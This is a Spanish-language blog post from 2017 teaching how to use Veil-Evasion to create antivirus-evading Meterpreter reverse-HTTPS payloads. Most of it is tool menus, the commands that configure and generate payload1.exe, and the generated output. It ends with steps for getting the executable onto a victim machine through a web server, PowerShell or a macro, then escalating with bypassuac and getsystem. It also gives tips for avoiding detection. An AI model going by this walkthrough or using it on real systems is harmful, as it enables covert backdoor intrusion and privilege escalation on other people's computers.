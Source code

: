 ```yaml
---
layout: post
title: 'Veil-Evasion: Como crear payloads indetectables'
date: '2017-07-29 04:25:34'
tags:
- metasploit
- kali
- powershell
- evasion
---
```


Una de las cosas mas discutidas es como crear un payload indetectable a los AV's o como hacer un ejecutable con un backdoor sin que suene una alarma?

Hay muchos metodos para hacer un payload totalmente indetectable pero Veil-Evasion nos ayuda mucho en este caso.

![Veil 3 logo](https://camo.githubusercontent.com/4d1e7e864f6be9fb19d0be7eff8b28c9b522e62d/68747470733a2f2f7777772e7665696c2d6672616d65776f726b2e636f6d2f77702d636f6e74656e742f75706c6f6164732f323031332f31322f63726f707065642d5665696c2d53796d626f6c322e706e67)
## Que es [Veil-Evasion](https://github.com/Veil-Framework/Veil)?
Es una plataforma que nos ayuda a crear payloads y backdoors que sean difícilmente detectables en el sistema ajeno. Esto nos ayuda a pasar alarmas IDS/IPS y también muchos antivirus.

Es importante destacar que a veces algunos Anti-Virus basados en heuristicas, sandboxing y demas, tienden a detectar la amenaza, es por eso que debemos primero conocer el sistema del objetivo. Incluso a veces con un simple mapeo de red podemos reconocer dispositivos que nos dicen que sistema de AV se usa en la organización.

## Uso

No cubrire la instalación aquí ya que (al menos para mí) es un dolor de cabeza. Pero en Kali es bastante simple: `apt install veil-evasion` y listo.

```
=========================================================================
 Veil-Evasion | [Version]: 2.28.2
=========================================================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
=========================================================================

 Main Menu

        51 payloads loaded

 Available Commands:

        use             Use a specific payload
        info            Information on a specific payload
        list            List available payloads
        update          Update Veil-Evasion to the latest version
        clean           Clean out payload folders
        checkvt         Check payload hashes vs. VirusTotal
        exit            Exit Veil-Evasion

 [menu>>]:
```

Al ejecutar `veil-evasion` podemos ver las opciones que son bastante simples:
* `use`: Para usar un payload de la lista.
* `info`: Obtener mas información de un payload.
* `list`: Lista de payloads
* `update`: Actualizar Veil-Evasion
* `clean`: Limpiar/remover payloads, ejecutables, codigo, shellcodes en el sistema.
* `checkvt`: Para confirmar los hashes en VirusTotal, **es importante hacer esto.**

Uno de mis favoritos y que considero yo que causan menos alertas son `powershell/meterpreter/rev_https` y `go/meterpreter/rev_https` ya que por supuesto una conexión https levanta menos sospechas que un TCP en el puerto mas sospechoso posible.

Una vez que tengamos el payload de la lista que querramos utilizar pues lo ejecutamos:
`use go/meterpreter/rev_https`
```
Payload: go/meterpreter/rev_https loaded


 Required Options:

 Name                   Current Value   Description
 ----                   -------------   -----------
 COMPILE_TO_EXE         Y               Compile to an executable
 LHOST                                  IP of the Metasploit handler
 LPORT                  8443            Port of the Metasploit handler

 Available Commands:

        set             Set a specific option value
        info            Show information about the payload
        options         Show payload's options
        generate        Generate payload
        back            Go to the main menu
        exit            exit Veil-Evasion

 [go/meterpreter/rev_https>>]:
```

Configuramos nuestro **L**ocal **Host**:
```
[go/meterpreter/rev_https>>]: set LHOST 0.0.0.0
 [i] LHOST => 0.0.0.0
```

Y procedemos a generarlo aceptando los valores por defecto:
```
[go/meterpreter/rev_https>>]: generate

 [>] Please enter the base name for output files (default is 'payload'):
 
encoding/base64
sort
encoding/pem
internal/singleflight
net
-- SNIP --
 
[*] Executable written to: /var/lib/veil-evasion/output/compiled/payload1.exe

 Language:              Go
 Payload:               go/meterpreter/rev_https
 Required Options:      COMPILE_TO_EXE=Y  LHOST=0.0.0.0  LPORT=8443
 Payload File:          /var/lib/veil-evasion/output/source/payload1.go
 Handler File:          /var/lib/veil-evasion/output/handlers/payload1_handler.rc

 [*] Your payload files have been generated, don't get caught!
 [!] And don't submit samples to any online scanner! ;)

 [>] Press any key to return to the main menu.
```

Y listo, nuestro payload ya fue escrito en `/var/lib/veil-evasion/output/compiled/payload1.exe` para que podamos probarlo y llevarlo de la manera mas conveniente a nuestro objetivo.

Una de las maneras mas convenientes para hacer esto es hacer un servidor web y descargar el archivo en la máquina víctima abusando de powershell o un macro.

Aquí te demuestro con un ejemplo. Pasos realizados:
1. Generacion de payload con Veil
2. Empujar el payload en un zip en el directorio de apache e iniciar el servicio
3. Descargar el archivo zip en la máquina objectivo y descomprirlo.
4. Iniciar metasploit con el recurso que nos dio Veil: `/var/lib/veil-evasion/output/handlers/payload1_handler.rc`
5. Una vez que el AV no detecta el archivo maligno, proceder a ejecutarlo.
6. Una vez conectado el payload a metasploit proceder a post-explotar la maquina con un bypassuac para Windows 10
7. ejecutar getsystem en meterpreter

[![veilexe](/content/images/2017/07/veilexe.png)](https://getroot.info/rec/veil.html)
